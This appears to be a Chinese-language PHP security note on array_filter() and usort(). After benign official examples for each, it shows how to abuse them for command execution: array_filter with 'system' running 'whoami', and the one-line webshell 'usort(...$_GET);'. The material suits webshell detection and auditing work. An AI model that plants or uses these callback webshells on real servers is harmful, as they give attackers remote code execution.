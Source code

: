 ### array_filter()

依次将`array`数组中的每个值传到`callback`函数。如果`callback`函数返回`true`，则`array`数组的当前值会被包含在返回的结果数组中。数组的键名保留不变

```php
# 官方示例
<?php
function odd($var)
{
    return($var & 1);
}

function even($var)
{
    return(!($var & 1));
}

$array1 = array("a"=>1, "b"=>2, "c"=>3, "d"=>4, "e"=>5);
$array2 = array(6, 7, 8, 9, 10, 11, 12);

echo "Odd :\n";
print_r(array_filter($array1, "odd"));
echo "Even:\n";
print_r(array_filter($array2, "even"));
?> 
# 执行结果
Odd :Array([a] => 1 [c] => 3 [e] => 5)
Even:Array([0] => 6 [2] => 8 [4] => 10 [6] => 12)
# 代码示例2
<?php
    $cmd='whoami';
    $array1=array($cmd);
    $func ='system';
    array_filter($array1,$func);
?>
# 成功输出whoami结果
```

### usort()

使用用户自定义的比较函数对数组中的值进行排序

```php
usort( array &$array, callable $value_compare_func) : bool
```

参数

- array：输入的数组
- cmp_function：在第一个参数小于、等于或大于第二个参数时，该比较函数必须相应地返回一个小于、等于或大于0的数

```php
<?php
    function func($a,$b){
        return ($a<$b)?1:-1;
    }
    $onearray=array(1,3,2,5,9);
    usort($onearray, 'func');
    print_r($onearray);
?>

# 执行结果
Array ( [0] => 9 [1] => 5 [2] => 3 [3] => 2 [4] => 1 )
    
# 把回调函数换成可以代码执行的函数
<?php 
    usort(...$_GET);
```